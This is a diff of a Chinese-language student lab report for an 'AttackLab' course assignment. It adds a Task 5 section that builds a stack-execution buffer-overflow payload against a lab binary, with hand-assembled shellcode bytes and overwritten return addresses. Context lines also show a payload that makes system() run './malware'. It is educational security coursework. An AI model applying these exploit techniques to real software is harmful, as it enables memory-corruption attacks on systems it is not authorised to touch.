

Before and after one commit to Icedpiggy/AttackLab, a Markdown page: report.md, 2 parts joined by grey strips. Drawn GitHub-style; pictures changed too: assets/5.png (added); blank space fills up the shorter version.

Commit message:
Task 5 Imperfect

````diff
--- a/report.md
+++ b/report.md
@@ -37,7 +37,7 @@
 
 ### 3. 利用缓冲区漏洞执行 `./malware` (25 pts 测试 + 5 pts 报告)
 
-- 根据 Task 2 的截图 `command_buf` 的地址为 `0x6030d0`；在 `gets(expression)` 后，直接从 `expression` 复制过来，`input()` 返回；在 `eval()` 函数原地将表达式包装成指令在 `system` 运行；
+- 根据 2 的截图 `command_buf` 的地址为 `0x6030d0`；在 `gets(expression)` 后，直接从 `expression` 复制过来，`input()` 返回；在 `eval()` 函数原地将表达式包装成指令在 `system` 运行；
 - 仅当 `dark-calc` 执行 `./malware` 时才成功，需要让 `system` 函数运行 `./malware`，那么需要：
     - 将输入的前缀改为 `./malware`，剩余 7 字符可直接用 `\0`
     - 将 `0x0000721000800fe0` 的内容照抄，否则会段错误；
@@ -67,7 +67,19 @@ payload = b"./malware" + b"\x00" * 7 + b"\xf0\x0f\x80\x00\x10\x72\x00\x00" + b"\
 
 ### 5. 栈空间执行 (25 pts 测试 + 5 pts 报告)
 
+- 类似 3(Task1)，对 `0x0000721000800fe8` 改为 `expression` 的地址；不能改为 `command_buf` 是因为 `strcpy` 的时候会忽略第一个 `0x00` 及之后的部分；不能直接跳到 `grade_eval`，而是要先 `mov edi, 4`
+- `command_buf` 或 `expression` 都有 16B 的余量，够用来 `mov edi, 4; mov ebx, 0x401a87; call rbx; ret`
+- 将 `0x0000721000800fe0` 的内容照抄，否则会段错误；
 
+那么构造如下：
+```python
+payload = b"\xbf\x04\x00\x00\x00" + b"\xbb\x87\x1a\x40\x00" + b"\xff\xd3" + b"\xc3" + b"\x00" * 3 + b"\xf0\x0f\x80\x00\x10\x72\x00\x00" + b"\xd0\x0f\x80\x00\x10\x72\x00\x00"
+```
+
+结果如下：
+![5](assets/5.png)
+
+能正确输出 `Hope A will be your grade! `，但是段错误，不完美，但是我自己只能做到这个程度了。
 
 ### 6. ROP (10 pts 测试 + 10 pts 报告)
 
@@ -79,4 +91,4 @@ payload = b"./malware" + b"\x00" * 7 + b"\xf0\x0f\x80\x00\x10\x72\x00\x00" + b"\
 
 ### 使用的工具
 
-- Deepseek-V4.1-Flash-1017: 对于问题 1 帮我确定答案的出处；
+- Deepseek-V4.1-Flash-1017: 对于问题 1 帮我确定答案的出处；对于问题 4 仅查询 call 语法相关
````
Also changed, not shown: 2 other files.
